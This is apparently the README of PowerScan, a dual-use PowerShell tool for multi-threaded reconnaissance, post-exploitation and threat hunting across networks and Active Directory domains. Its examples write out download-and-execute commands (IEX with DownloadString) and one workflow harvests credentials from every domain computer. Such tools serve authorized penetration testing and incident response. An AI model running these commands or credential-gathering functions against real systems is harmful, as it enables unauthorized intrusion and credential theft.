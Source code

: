 # PowerScan

PowerScan runs PowerShell script block targeting network ranges or Active Directory domain computers.

This tool is designed to run PowerShell code locally in order to quietly query multiple hosts in a multi-threaded way.
If you need to run PowerShell script block on remote hosts, please refer to [PowerExec](https://github.com/tmenochet/PowerExec) project.

PowerScan project includes various PowerShell scripts that can be launched within PowerScan as script block for reconnaissance, post-exploitation or threat hunting purposes.

By default, output is written into a CSV file in the current directory. This can be disabled using the switch `-NoCsv`.
Console output can also be disabled using the switch `-Quiet`.


## Functions

### Recon

Reconnaissance functions require either low privileges (typically domain user) or none.

| Function              | Description                                          |
| --------------------- | ---------------------------------------------------- |
| Get-NetBiosInterface  | Get NetBIOS information, including network addresses |
| Get-NetSession        | Get logon session information                        |
| Get-NullSessionStatus | Check if null session to IPC$ is allowed             |
| Get-OxidBinding       | Get addresses of network interfaces                  |
| Get-SecurityService   | Detect security services                             |
| Get-ServiceNamedPipe  | Detect interesting services                          |
| Get-SmbOSVersion      | Get OS version                                       |
| Get-SmbStatus         | Get available versions of the SMB protocol           |
| Get-SpoolerStatus     | Get the status of Print Spooler service              |


### Post

Post-exploitation functions require high privileges (typically administrator).

| Function                  | Description                                                   |
| ------------------------- | ------------------------------------------------------------- |
| Get-CimCredential         | Get credentials from common registry keys and files           |
| Get-CimDpapiCredential    | Get credentials from Windows Credentials                      |
| Get-CimDpapiVault         | Get credentials from Windows Vault                            |
| Get-RegistryHiveDump      | Get secrets from registry hives retrieved via remote registry |
| Get-ShadowHiveDump        | Get secrets from registry hives retrieved via shadow copy     |


### Hunt

Hunting functions require high privileges (typically administrator).


| Function                  | Description                                                   |
| ------------------------- | ------------------------------------------------------------- |
| Get-CimAppCompatCache     | Get shimcache execution artefacts                             |
| Get-CimAsepLogon          | Get AutoStart Extension Points related to logon               |
| Get-CimAsepStartup        | Get common AutoStart Extension Points related to logon        |
| Get-CimAsepWmi            | Get WMI persistences                                          |
| Get-CimDNSCache           | Get DNS cache entries                                         |
| Get-CimDirectory          | Get a directory listing of folders and files                  |
| Get-CimDriver             | Get Windows drivers                                           |
| Get-CimLocalAdmin         | Get members of local admin group                              |
| Get-CimLocalUser          | Get local user accounts                                       |
| Get-CimLogonHistory       | Get logon cached information                                  |
| Get-CimLogonSession       | Get logon session information                                 |
| Get-CimNetAdapter         | Get network adapters                                          |
| Get-CimNetTCPConnection   | Get current TCP connections                                   |
| Get-CimProcess            | Get running processes                                         |
| Get-CimRegistryKey        | Get registry subkeys                                          |
| Get-CimRegistryValue      | Get registry value names                                      |
| Get-CimScheduledTask      | Get scheduled tasks                                           |
| Get-CimSecurityHealth     | Get the status of security softwares                          |
| Get-CimService            | Get Windows services                                          |
| Get-CimSmbShare           | Get SMB shares and related permissions                        |
| Get-CimUserAssist         | Get user assist execution artefacts                           |
| Get-ComScheduledTask      | Get scheduled tasks                                           |
| Get-EventLogon            | Get logon events from Windows Security logs                   |
| Get-EventSuspiciousBITS   | Get suspicious BITS events from Windows logs                  |
| Get-EventSuspiciousPS     | Get suspicious Powershell events from Windows logs            |
| Get-EventSvcCreation      | Get service creation events from System logs                  |
| Get-EventSvcModification  | Get service modification events from System logs              |
| Get-EventTaskCreation     | Get scheduled task creation events from Security logs         |
| Get-EventTaskModification | Get scheduled task modification events from Security logs     |
| Get-PowershellHistory     | Get Powershell history files                                  |
| Get-PowershellProfile     | Get Powershell profile files                                  |
| Get-RegistryKeyTimestamp  | Get registry key timestamp                                    |


## Examples

Get available versions of the SMB protocol and signing requirements on a network:

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/PowerScan/master/PowerScan.ps1')
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/PowerScan/master/Recon/Get-SmbStatus.ps1')
PS C:\> Invoke-PowerScan -ScriptBlock ${Function:Get-SmbStatus} -ComputerList 192.168.1.0/24
```


Get the status of Print Spooler service on all domain controllers (using implicit credentials):

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/PowerScan/master/PowerScan.ps1')
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/PowerScan/master/Recon/Get-SpoolerStatus.ps1')
PS C:\> Invoke-PowerScan -ScriptBlock ${Function:Get-SpoolerStatus} -ComputerDomain ADATUM.CORP -ComputerFilter DomainControllers -NoCsv
```


Gather credentials from common registry keys and files on all domain computers (using explicit credentials):

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/PowerScan/master/PowerScan.ps1')
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/PowerScan/master/Post/Get-CimCredential.ps1')
PS C:\> $cred = Get-Credential Administrator@ADATUM.CORP
PS C:\> Invoke-PowerScan -ScriptBlock ${Function:Get-CimCredential} -ScriptParameters @{Credential=$cred; DownloadFiles=$true} -ComputerDomain ADATUM.CORP -Credential $cred
```


## Acknowledgments

PowerScan is inspired by the following projects, among others:

  * [CimSweep](https://github.com/PowerShellMafia/CimSweep) by @mattifestation

  * [PSGumshoe](https://github.com/PSGumshoe) by @darkoperator

  * [SessionGopher](https://github.com/Arvanaghi/SessionGopher) by @arvanaghi

